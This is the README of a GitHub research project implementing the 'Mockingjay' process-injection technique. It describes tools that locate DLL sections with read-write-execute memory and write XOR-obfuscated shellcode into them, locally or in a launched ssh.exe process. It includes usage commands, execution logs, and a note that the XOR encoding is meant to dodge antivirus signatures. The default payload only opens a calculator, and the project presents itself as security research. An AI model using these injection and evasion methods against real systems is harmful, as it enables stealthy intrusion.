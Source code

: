 # Mockingjay
Tests and implementation of Mockingjay technique

The code was created for security researchers to use for exploration and tests of this techinque for their own purposes.

Original authors of techinque and further details can be found here:

[https://www.securityjoes.com/post/process-mockingjay-echoing-rwx-in-userland-to-achieve-code-execution]

# shellcode and code execution
Shellcode should be placed in funx32.h or funx64.h, and the key in key.h within the same folder as the c file of either mockingjay-local or mockingjay-remote.

The shellcode is expected to be simply XOR'd. This is just to prevent static AV signatures from flagging and remove the code. 

Default key is "pizza".

Default shellcode is msf's windows/exec or windows/x64/exec, CMD=calc.exe

nop.h in both mockingjay folders is simply a 2048 B nopsled. 

Both mocking-local and mockingjay-remote utilize this in order to not have to be exact on where the user shellcode lands in the RWX space. 

In my tests with mockingjay-remote, this allowed me to expand shellcode execution to the 32-bit version of ssh.exe that came packaged with my VS2019 install.

To compile, simply load into VS 2019+ and "Build Solution"

Use of this project, compiled or uncompiled code, is AS IS and carries no warranty and I am not liable for damages occured,
  as this application is provided for educational and development purposes.

USE AT YOU OWN RISK!

# Mockingjay-local
Uses a user specified DLL to load, locate RWX space, write shellcode into said space in memory, and final execute such.

Based off the first technique in the whitepaper above, but I did not implement Hell's Gate-left as an exercise for the reader :-) 

USAGE: > mockingjay-local (path to DLL)

   ex. > mockingjay-local .\VS2022-binaries\msys-2.0.dll
```
.\x64\Debug\mockingjay-local.exe .\VS2022-binaries\msys-2.0.dll
[!] Using 64-bit payload
[!] Size of key: 5
[!] Shc decrypted 277 bytes!
Section Name: /4
Virtual Size: 0x3890
Virtual Address: 0x1EC000
Size of Raw Data: 0x3A00
Characteristics: 0xE0000020
---------------------------
[!] RWX Section Addr calculated as:        21022c000
[!] Executing shellcode
```
![image](https://github.com/khr0x40sh/Mockingjay/assets/6656699/56c22858-b369-4818-aa37-2391a35c7748)


# Mockingjay-remote
Uses a user specified binary in which uses a DLL with RWX space, and a hexidecimal representation of the address of where to begin writing the shellcode in the RWX space.

Based off the second technique in the whitepaper. The example provided below should pretty reliably pop calc.

USAGE: > mockingjay-remote (path to EXE args) (addr)

   ex: > mockingjay-remote ".\VS2022-binaries\ssh.exe decoy@decoy.com" 0x21022D120

```
.\x64\Debug\mockingjay-remote.exe ".\VS2022-binaries\ssh.exe decoy@decoy.com" 0x21022D120
       21022d120
[!] msys-2.0.dll found!
[+] Proc launched with PID of: 4816
[!] Using 64-bit payload
[!] Key length detected as 5
[+] RWX space in DLL overwritten successfully!
[!] Have some cheezburgers...
```
![image](https://github.com/khr0x40sh/Mockingjay/assets/6656699/26653633-47e7-4528-8489-ead244261112)


# RWXFinder
Uses a user supplied folder path to which it will hunt for RWX space in a DLL. 

Based off this repo: [https://github.com/pwnsauc3/RWXfinder] and data from the whitepaper.

USAGE: > mrwxfinder.exe (folder path)

   ex: > rwxfinder.exe "..\\VS2022-binaries\\"

![image](https://github.com/khr0x40sh/Mockingjay/assets/6656699/eb559642-8b6b-4b86-a45f-0240340441fd)
